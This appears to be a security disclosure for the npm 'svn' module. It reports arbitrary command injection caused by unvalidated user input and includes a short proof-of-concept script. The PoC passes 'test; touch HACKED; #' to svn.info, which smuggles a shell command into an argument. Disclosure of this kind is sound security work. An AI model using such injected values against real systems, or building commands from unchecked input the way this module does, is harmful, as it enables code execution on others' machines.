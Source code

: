 # :bug: Description

The `svn` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var SVN = require('svn');
var svn = new SVN('./working_copy');
svn.info("test; touch HACKED; #", function(){});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i svn # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
